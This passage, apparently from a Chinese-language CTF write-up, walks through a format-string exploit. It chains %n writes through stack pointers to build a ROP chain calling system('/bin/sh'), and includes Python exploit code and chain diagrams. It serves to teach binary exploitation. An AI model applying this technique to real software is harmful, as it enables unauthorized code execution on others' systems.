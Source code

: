   ```
      
    
    通过 **%int(addr3)c%35$n** 将addr1+32中存储的数据改为 **addr1**
    
    造了一个新的跳板addr1+32，也就是说我们只要借助的跳板不是%9而是%11
    
    我们把它设为addr5，同时把addr1+24设为addr4
  
  - 通过 **%int(addr3)c%11$n** 使`dfa8`指向 **addr3**
    
    通过 **%int(ret)c%35$n** 将addr3中存储的数据改为 **ret**
    
    这里的`ret`就是之前代码中得到的`ret`，是ret指令的地址，至于为何多这一步稍后再说
    
  - 通过 **%int(addr4)c%11$n** 使`dfa8`指向 **addr4**
  
    通过 **%int(system_addr)c%35$n** 将addr3中存储的数据改为 **system函数地址**
  
  
  
  好，经过这些操作之后，我们应该就成了，先来看看代码：
  
    ```python
    # setvalue(addr,data)
    # 该函数通过control控制的跳板将dfa8指向参数1:addr,然后将addr的数据更改为参数2:data
    # 函数内部实际上是通过循环 %..c%xx$hn 来实现的
    
    control=9 #初始跳板 %9
    setvalue(ret_stackaddr,pop_rdi_ret)  #1 改addr1为pop_rdi_ret
    
    binsh_addr=pop_rdi_ret-0x893+0x201080#binsh字符串地址
    
    setvalue(ret_stackaddr+8,binsh_addr) #2 改addr2为binsh_addr
    
    setvalue(ret_stackaddr+32,work_addr) #3 创建新的跳板addr5
    
    control=11 #新跳板 %11
    setvalue(ret_stackaddr+16,ret)       #4 改addr3为ret指令地址
    setvalue(ret_stackaddr+24,system_addr)  #5 改addr4为system函数地址
    ```
  
  到这里有必要先说一下**/bin/sh字符串的地址**了，因为输入的字符串会存到bss段中的buf里去，buf肯定是可读可写的，所以我们可以把/bin/sh字符串存到buf中去；并且因为最后需要传送”66666666“来控制循环结束，所以我们把/bin/sh字符串存到buf的靠中间的位置
  
- 总算快要结束了，先处理一下遗留问题，之前发的两段代码中都有关于ret的操作。
  
  第一份代码中`ret=pop_rdi_ret-0x893+0x626`，这步其实就是先通过ROPgadget获取到单一个ret指令的地址，然后运算得出实际地址
  
  第二份代码中就是比预计的ROP链多了一环：
    我们一开始预计的链是这样的：
  
    ```mermaid
    graph LR
    	id1(pop_rdi_ret) --> id2(binsh_addr)
    	id2 --> id3(system_addr)
    ```
    那么我们现在的链是这样的
    ```mermaid
    graph LR
    	id1(pop_rdi_ret) --> id2(binsh_addr)
    	id2 --> id3(ret)
    	id3 --> id4(system_addr)
    ```
  ```